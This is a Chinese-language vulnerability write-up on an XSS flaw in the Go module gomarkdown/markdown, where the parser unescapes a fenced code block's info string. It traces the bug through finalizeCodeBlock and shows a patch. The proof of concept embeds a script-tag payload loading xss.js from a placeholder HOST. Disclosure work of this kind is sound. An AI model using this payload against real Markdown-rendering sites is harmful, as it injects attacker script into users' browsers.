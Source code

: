 > 原文链接: https://www.anquanke.com//post/id/250541 


# gomarkdown/markdown 项目的 XSS 漏洞产生与分析


                                阅读量   
                                **40818**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t019410e9f4d78c15be.png)](https://p3.ssl.qhimg.com/t019410e9f4d78c15be.png)



## 前言

gomarkdown/markdown 是 Go 语言的一个流行模块，它旨在快速地将 Markdown 文档转化为 HTML 页面。而此次发现的漏洞，来源于作者在编写其语法树 Parser 的时候无意的一次 unescape。



## 漏洞复现

我们首先来看一段代码。

```
package main
import (
    "fmt"
    "github.com/gomarkdown/markdown"
    "html"
)
func main() `{`
    var textToRender = "```\"1;&gt;&lt;script/src=\"http://HOST/xss.js\"&gt;&lt;/script&gt;\n\n```\n"
    var middleware = html.EscapeString(textToRender)
    var result = markdown.ToHTML([]byte(middleware), nil, nil)
    fmt.Println(string(result))
`}`
```

大部分人一眼看过来，发现有 `html.EscapeString` 方法进行过滤，可能就跟笔者一开始一样，认为这里一定没什么问题。其实不然，我们可以采用 `v0.0.0-20210514010506-3b9f47219fe7`，也就是笔者提交 issue 之前的最新版本来试一下，看结果会怎样。

[![](https://p4.ssl.qhimg.com/t01f93dcba105c2aaa6.png)](https://p4.ssl.qhimg.com/t01f93dcba105c2aaa6.png)

可以发现我们原本使用 `html.EscapeString` 进行转义的字符不受影响地出现在了结果中，从而导致了 script 标签被单独完整地渲染到 HTML，从而引入了一个外部 js 文件。更进一步的说，为 XSS 提供了完美的条件。



## 漏洞分析

使用上述给出的代码进行调试，先看一个调用栈。

[![](https://p5.ssl.qhimg.com/t01636152b9d87f7894.png)](https://p5.ssl.qhimg.com/t01636152b9d87f7894.png)

从 ToHTML 方法进来之后直接到 `doc := Parse(markdown, p)`，从而进入了 Parse 这个方法。

[![](https://p3.ssl.qhimg.com/t01f5359645aa80afd3.png)](https://p3.ssl.qhimg.com/t01f5359645aa80afd3.png)

然后就是调用到 block 方法对输入的 Markdown 字符串进行分块的处理。在逐一判断到代码块后进入了 fencedCodeBlock 方法。

[![](https://p2.ssl.qhimg.com/t0188afcc1169839d8f.png)](https://p2.ssl.qhimg.com/t0188afcc1169839d8f.png)

在其中将代码块的内容分解填入对象之后，会进入 finalizeCodeBlock 进行一个收尾工作。

[![](https://p0.ssl.qhimg.com/t0149540201306f002d.png)](https://p0.ssl.qhimg.com/t0149540201306f002d.png)

跟进去之后可以发现这个方法是这样的。

```
func finalizeCodeBlock(code *ast.CodeBlock) `{`
    c := code.Content
    if code.IsFenced `{`
        newlinePos := bytes.IndexByte(c, '\n')
        firstLine := c[:newlinePos]
        rest := c[newlinePos+1:]
        code.Info = unescapeString(bytes.Trim(firstLine, "\n"))
        code.Literal = rest
    `}` else `{`
        code.Literal = c
    `}`
    code.Content = nil
`}`
```

`code.Info` 的内容被 unescapeString 处理了一次，也就是最后得到意外结果的问题根源。接着往后跟踪，可以发现处理后的内容被放进对象 p 后直接利用语法树完成了渲染，最终得到 HTML 字符串，而被解码后的内容并没有被二次转义。

[![](https://p3.ssl.qhimg.com/t01de5848cc80fadd90.png)](https://p3.ssl.qhimg.com/t01de5848cc80fadd90.png)

[![](https://p4.ssl.qhimg.com/t0186ee8163ba07e77c.png)](https://p4.ssl.qhimg.com/t0186ee8163ba07e77c.png)

因此，最后得到的字符串就出现了上文的问题。



## 漏洞的修复

由于漏洞的产生是因为解码后没有再次编码，因此可以将其使用 `html.EscapeString` 重新处理一次，将原有的语句做如下替换。

```
- code.Info = unescapeString(bytes.Trim(firstLine, "\n"))
+ code.Info = []byte(html.EscapeString(string(unescapeString(bytes.Trim(firstLine, "\n")))))
```

此时再重新运行一次文章开始时给出的代码，可以得到如下结果。

```
&lt;pre&gt;&lt;code class="language-"1;&amp;gt;&amp;lt;script/src="http://HOST/xss.js"&amp;gt;&amp;lt;/script&amp;gt;"&gt;
&lt;/code&gt;&lt;/pre&gt;
```

可以发现由于再次进行了 HTML 实体转义，script 标签没有被独立渲染，从而避免了 XSS 的产生。
